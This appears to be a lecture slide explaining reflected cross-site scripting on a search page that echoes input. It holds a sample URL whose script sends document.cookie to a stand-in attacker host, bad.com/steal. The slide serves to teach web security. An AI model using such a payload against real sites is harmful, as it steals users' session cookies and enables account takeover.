

# Exploiting echoed input
Input from bad.com:
http://victim.com/search.php?term=
<script> window.open(  “http://bad.com/steal?c=“
+	document.cookie)
</script>
Result from victim.com:

<html>
<body>  Results for
<title>
Search results </title>
.	.	.
</body></html>